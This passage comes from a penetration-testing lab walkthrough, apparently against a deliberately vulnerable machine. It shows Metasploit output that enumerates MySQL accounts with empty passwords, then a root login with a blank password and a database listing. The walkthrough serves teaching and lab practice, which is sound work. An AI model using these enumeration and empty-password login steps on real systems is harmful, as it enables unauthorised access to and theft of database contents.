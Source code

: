 [*] 		User: guest Host: %
[*] 	The following users have PROCESS Privilege:
[*] 		User: debian-sys-maint Host:
[*] 		User: root Host: %
[*] 		User: guest Host: %
[*] 	The following accounts have privileges to the mysql database:
[*] 		User: debian-sys-maint Host:
[*] 		User: root Host: %
[*] 		User: guest Host: %
[*] 	The following accounts have empty passwords:
[*] 		User: debian-sys-maint Host:
[*] 		User: root Host: %
[*] 		User: guest Host: %
[*] 	The following accounts are not restricted by source:
[*] 		User: guest Host: %
[*] 		User: root Host: %
[*] Auxiliary module execution completed

Since we already have access to the root user in MySQL, there's no need to brute force other login names. However, if there were many users in a complex database, this might yield a treasure trove of usernames with different privileges, allowing you to see different sections of the database.


Dump MySQL Database Contents (SQL Commands)

Use the SHOW DATABASES sql command to show the databases available.

Use the USE tablename sql command to use a particular database.

Once you've selected a particular database, you can start to explore it. From the list of databases, we can deduce the following:

    computer is running two tikiwiki instances
    dvwa = damn vulnerable web application

Remember, the password is blank - just hit enter when prompted for password.

$ mysql -u root -p -h 10.0.0.27
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10654
Server version: 5.0.51a-3ubuntu5 (Ubuntu)

Copyright (c) 2000, 2015, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>

mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| dvwa               |
| metasploit         |
| mysql              |
| owasp10            |
| tikiwiki           |
| tikiwiki195        |
